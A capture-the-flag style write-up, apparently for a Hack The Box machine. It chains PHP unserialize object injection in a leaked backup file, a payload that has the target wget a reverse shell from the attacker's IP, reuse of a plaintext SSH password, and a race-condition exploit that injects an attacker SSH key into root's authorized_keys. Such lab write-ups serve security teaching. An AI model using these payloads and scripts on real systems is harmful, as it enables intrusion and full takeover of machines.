

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So we have a Wordpress Site. We find some suspicous comments inside the blog mentioning a sator.php and a backup.

So after a short period of time we find:
http://[remote_ip]/sator.php
http://[remote_ip]/sator.php.bak

Let's have a look at the sator.php.bak:

```php
<?php
class DatabaseExport
{
    public $user_file = 'users.txt';
    public $data = '';

    public function update_db()
    {
        echo '[+] Grabbing users from text file <br>';
        $this-> data = 'Success';
    }


    public function __destruct()
    {
        file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
        echo '[] Database updated <br>';
    //    echo 'Gotta get this working properly...';
    }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();
?>
```
Our input gets unserialized and used in file_put_contents as soon as `__destruct()` get's executed.

So we can exploit the `arepo` parameter like this:

First we setup a locale php server: 
```
  php -S 127.0.0.1:8000
```

and put our script in it's directory:
```php
<?php
class DatabaseExport
{
   public $data = "<?php echo shell_exec('wget http://10.10.14.45:8080/php-reverse-shell.php -O ./shell.php 2>&1');?>";
   public $user_file = "test.php";
}

$url = 'http://10.129.120.34/sator.php?arepo=';

$url = $url . urlencode(serialize(new DatabaseExport));

print $url;
?>
```
When we now request 127.0.0.1:8000/script.php (or whatever name we gave our script) we get a serialized url as a response.
For example:
```
  http://10.129.120.34/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A4%3A%22data%22%3Bs%3A98%3A%22%3C%3Fphp+echo+shell_exec%28%27wget+http%3A%2F%2F10.10.14.45%3A8080%2Fphp-reverse-shell.php+-O+.%2Fshell.php+2%3E%261%27%29%3B%3F%3E%22%3Bs%3A9%3A%22user_file%22%3Bs%3A8%3A%22test.php%22%3B%7D
```
Now we only need to run a local python server where we host the php reverse shell and a netcat listener. As soon as we request the serialized url the shell.php gets uploaded to the victim machine. We can now request the shell.php in our browser and got our reverse shell as www-data user.


Running linpeas reveals:



We can now ssh into the user neil:
``` 
ssh neil@[REMOTE_IP] mit passwort Opera2112
```


For root we find a suspicous script at /usr/local/bin/enableSSH.sh
```bash
#!/bin/bash

checkAdded() {
    sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
    if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
        /bin/echo "Successfully added $sshName to authorized_keys file!"
    else
        /bin/echo "Error in adding $sshName to authorized_keys file!"
    fi
}

checkFile() {
    if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
        /bin/echo "Error in creating key file!"
        if [[ -f $1 ]]; then /bin/rm $1; fi
        exit 1
    fi
}

addKey() {
    tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
    (umask 110; touch $tmpName)
    /bin/echo $key >>$tmpName
    checkFile $tmpName
    /bin/cat $tmpName >>/root/.ssh/authorized_keys
    /bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```
The script creates a keyfile -> reads it -> adds it to authorized_keys -> and deletes it afterwards. So if we are fast enough we can change the content of the keyfile after it got created but before it gets read and input our own key. We use two easy scripts to be fast enough:
```bash
while :
do
   sudo /usr/local/bin/enableSSH.sh
done
```
und
```bash
while :
do
   file=$(ls /tmp | grep ssh)
   echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDE5AzLNaxUfa/WdYcxAYZJVR6ORY5JjfgUjzdtyEZN1pdgpwSuisad5MLQGeiairM4iNXR5eGCtaSe1pZ7mMwnW9bP2RlHvcsLEjnvtGYh92sJbFjbN7cWBWHKYN0fnD+9d/ydWJVjZbxg45EreEJtEzyyK3mcB+m4uNqpvp5LiEtK0YNXOGCVd3FNieVqurDZO7/X+gGrz5f2RrlJiqt0jB/tJ8JYeO5TPuZmUXQWPfaa8DeVdhd6Lo09UkUWhxsbDfG8NvJY+VjePxbHWEMZmEOlisKpf/FlZiCO5+sJibbQvvj6xnf4LUaaHNOPg2xuNAx3tSB2ElR4tInylSeX33JqL4vtTiyyPd++foUaGwQ2uP30ZFkOi2g/ibXG+GfDYpNRzLDXhaQNFOJ+BlNvFWAS9P18EoETujB5nSB5hMR7ti7YrKyhsTPvcWgSbsORSU5uG9Roydss2VHtacQqfVByIKL3dwxFU70fieMODRLJJjzQV3+V7G0mfu0t/kc= htb-hexp@htb-vs8mvo87pw" > $file
done
```
After a couple of tries it will eventually work and we can connect to the root user with the private key:
```
ssh -i key root@[remote_ip]
```


